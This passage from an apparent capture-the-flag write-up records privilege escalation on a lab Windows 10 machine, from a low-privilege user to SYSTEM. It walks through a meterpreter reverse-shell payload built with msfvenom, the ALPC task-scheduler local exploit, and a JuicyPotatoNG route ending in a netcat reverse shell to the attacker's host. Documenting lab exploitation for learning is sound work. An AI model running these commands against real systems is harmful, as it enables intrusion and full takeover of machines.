LOCAL                                Well-known group S-1-2-0                                                                                          Mandatory group, Enabled by default, Enabled group
IIS APPPOOL\DefaultAppPool           Well-known group S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10                                                                                      Mandatory group, Enabled by default, Enabled group
                                     Unknown SID type S-1-5-32-4028125388-2803578072-1053907958-341417128-2434011155-477421480-740873757-3973419746    Mandatory group, Enabled by default, Enabled group
                                     Unknown SID type S-1-5-32-2745667521-2937320506-1424439867-4164262144-2333007343-2599685697-2993844191-2003921822 Mandatory group, Enabled by default, Enabled group
                                     Unknown SID type S-1-5-32-1034403361-4122601751-838272506-684212390-1217345422-475792769-1698384238-1075311541    Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                                                                                                       


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled📌 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

`dir C:\\Users\destitute\Desktop`:
```
    Directory: C:\Users\destitute\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       22/01/2025     11:57             34 proof.txt
-ar--l       02/11/2022     14:55              0 user.txt 
```

`type C:\\Users\destitute\Desktop\user.txt`:
```
5525f***************************🚩
```

`systeminfo`:
```
Host Name:                 CONCEAL
OS Name:                   Microsoft Windows 10 Enterprise📌
OS Version:                10.0.15063 N/A Build 15063📌
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00329-00000-00003-AA343
Original Install Date:     12/10/2018, 20:04:27
System Boot Time:          23/01/2025, 12:21:52
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-gb;English (United Kingdom)
Input Locale:              en-gb;English (United Kingdom)
Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,109 MB
Virtual Memory: Max Size:  3,199 MB
Virtual Memory: Available: 2,268 MB
Virtual Memory: In Use:    931 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A📌
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0 2
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.116
                                 [02]: fe80::fb:bd87:cd9:e369
                                 [03]: dead:beef::b0b9:f7ed:4981:85b1
                                 [04]: dead:beef::fb:bd87:cd9:e369
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

`icacls C:\Windows\Tasks`:
```
C:\Windows\Tasks NT AUTHORITY\Authenticated Users:(RX,WD)📌
                 BUILTIN\Administrators:(F)
                 BUILTIN\Administrators:(OI)(CI)(IO)(F)
                 NT AUTHORITY\SYSTEM:(F)
                 NT AUTHORITY\SYSTEM:(OI)(CI)(IO)(F)
                 NT AUTHORITY\SYSTEM:(F)
                 CREATOR OWNER:(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```


`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.21 LPORT=5555 -f exe -o ./revsh.exe`:
```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: ./revsh.exe
```

`python3 -m http.server 80`:
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

`msfconsole -q`

`search multi handler`, `use exploit/multi/handler`, `options`, `set PAYLOAD windows/x64/meterpreter/reverse_tcp`, `set LHOST 10.10.14.21`, `set LPORT 5555`, `exploit -j`:
```
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 10.10.14.21:5555 
```


`iwr -UseBasicParsing -Uri 'http://10.10.14.21/revsh.exe' -OutFile 'C:\\Users\destitute\Desktop\revsh.exe'`

`C:\\Users\destitute\Desktop\revsh.exe`


```
[*] Sending stage (203846 bytes) to 10.10.10.116
[*] Meterpreter session 1 opened (10.10.14.21:5555 -> 10.10.10.116:49779) at 2025-01-23 08:37:29 -0500
```

`sessions`:
```
Active sessions
===============

  Id  Name  Type                     Information                  Connection
  --  ----  ----                     -----------                  ----------
  1         meterpreter x64/windows  CONCEAL\Destitute @ CONCEAL  10.10.14.21:5555 -> 10.10.10.116:49779 (10.10.10.116)
```

`search alpc`, `use exploit/windows/local/alpc_taskscheduler`, `set PAYLOAD windows/x64/meterpreter/reverse_tcp`, `options`, `set SESSION 1`, `set LHOST 10.10.14.21`, `set LPORT 5555`, `exploit`:
```
[*] Started reverse TCP handler on 10.10.14.21:5555 
[*] Checking target...
[*] Target looks good... attempting the LPE exploit
[*] Launching msiexec to host the DLL...
[+] Process 372 launched.
[*] Reflectively injecting the DLL into 372...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (203846 bytes) to 10.10.10.116
[*] Meterpreter session 2 opened (10.10.14.21:5555 -> 10.10.10.116:49780) at 2025-01-23 08:39:58 -050
```

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM
```

`shell -t`:
```
Process 3428 created.
Channel 1 created.
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

<🔄 Alternative 🔄>


`locate -i 'juicypotato'`:
```
/home/nabla/tools/JuicyPotato
/home/nabla/tools/JuicyPotato/JuicyPotatoNG.exe
/home/nabla/tools/JuicyPotato/JuicyPotatoNG.zip
/usr/share/metasploit-framework/data/exploits/juicypotato
/usr/share/metasploit-framework/data/exploits/juicypotato/juicypotato.x64.dll
/usr/share/metasploit-framework/data/exploits/juicypotato/juicypotato.x86.dll
```

`cp /home/nabla/tools/JuicyPotato/JuicyPotatoNG.exe ./juicypotatong.exe`

`locate -i 'nc64.exe'`:
```
/home/nabla/tools/nc.exe/nc64.exe
```

`cp /home/nabla/tools/nc.exe/nc64.exe ./`

`vim ./privesc_test.bat`:
```
@echo off
whoami > C:\Users\destitute\Desktop\privesc_test.txt
```


`iwr -UseBasicParsing -Uri 'http://10.10.14.21/juicypotatong.exe' -OutFile 'C:\\Users\destitute\Desktop\juicypotatong.exe'`

`iwr -UseBasicParsing -Uri 'http://10.10.14.21/nc64.exe' -OutFile 'C:\\Users\destitute\Desktop\nc64.exe'`

`iwr -UseBasicParsing -Uri 'http://10.10.14.21/privesc_test.bat' -OutFile 'C:\\Users\destitute\Desktop\privesc_test.bat'`

`dir C:\\Users\destitute\Desktop`:
```
    Directory: C:\Users\destitute\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       22/01/2025     16:10         347648 juicypotatong.exe
-a----       22/01/2025     15:57          45272 nc64.exe
-a----       23/01/2025     12:35             63 privesc_test.bat
-a----       22/01/2025     11:57             34 proof.txt
-ar--l       02/11/2022     14:55              0 user.txt   
```

`cd C:\\Users\destitute\Desktop`

`./juicypotatong.exe -t * -p "C:\\Users\destitute\Desktop\privesc_test.bat" -l 1337`:
```
Testing {A9B5F443-FE02-4C19-859D-E9B5C5A1B6C6} 1337
......
[+] authresult 0
{A9B5F443-FE02-4C19-859D-E9B5C5A1B6C6};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

`type privesc_test.txt`:
```
nt authority\system📌
```


`rlwrap nc -lnvp 5555`:
```
listening on [any] 5555 ...
```


`echo 'C:\Users\destitute\Desktop\nc64.exe -e cmd 10.10.14.21 5555' > ./revsh.bat`

`./juicypotatong.exe -t * -p "C:\Users\destitute\Desktop\revsh.bat" -l 1337`:
```
         JuicyPotatoNG
         by decoder_it & splinter_code

[*] Testing CLSID {854A20FB-2D44-457D-992F-EF13785D2B51} - COM server port 1337 
[+] authresult success {854A20FB-2D44-457D-992F-EF13785D2B51};NT AUTHORITY\SYSTEM;Impersonation
[+] CreateProcessAsUser OK
[+] Exploit successful! 
```

</🔄 Alternative 🔄>


`whoami`:
```
nt authority\system
```

`dir C:\Users\Administrator\Desktop`:
```
 Volume in drive C has no label.
 Volume Serial Number is 0911-80ED

 Directory of C:\Users\Administrator\Desktop

02/11/2022  14:56    <DIR>          .
02/11/2022  14:56    <DIR>          ..
23/01/2025  12:22                34 proof.txt
02/11/2022  14:56    <SYMLINK>      root.txt [proof.txt]
               2 File(s)             34 bytes
               2 Dir(s)   4,760,940,544 bytes free
```

`type C:\Users\Administrator\Desktop\root.txt`:
```
4ee4a***************************🚩
```


---
---
